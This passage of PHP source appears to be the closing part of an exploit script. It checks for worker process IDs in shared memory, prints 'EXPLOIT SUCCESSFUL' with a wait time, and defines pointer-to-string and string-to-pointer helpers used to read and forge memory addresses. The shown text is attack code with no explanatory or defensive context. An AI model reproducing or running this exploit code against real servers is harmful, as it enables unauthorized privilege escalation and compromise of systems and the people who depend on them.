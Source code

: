                 }
            }

            if(count($workers_pids) > 0)
            {
                o(
                    'Unable to find PIDs ' .
                    implode(', ', $workers_pids) .
                    ' in SHM, exiting.'
                );
                exit();
            }

            o('');
            o('EXPLOIT SUCCESSFUL.');
            o('Await 6:25AM.');
            
            return 0;
        }
    }

    function o($msg)
    {
        # No concatenation -> no string allocation
        print($msg);
        print("\n");
    }

    function ptr2str($ptr, $m=8)
    {
        $out = "";
        for ($i=0; $i<$m; $i++)
        {
            $out .= chr($ptr & 0xff);
            $ptr >>= 8;
        }
        return $out;
    }

    function str2ptr(&$str, $p, $s=8)
    {
        $address = 0;
        for($j=$s-1;$j>=0;$j--)
        {
            $address <<= 8;
            $address |= ord($str[$p+$j]);
        }
        return $address;
    }

    function in($i, $range)
    {
        return $i >= $range[0] && $i < $range[1];
    }
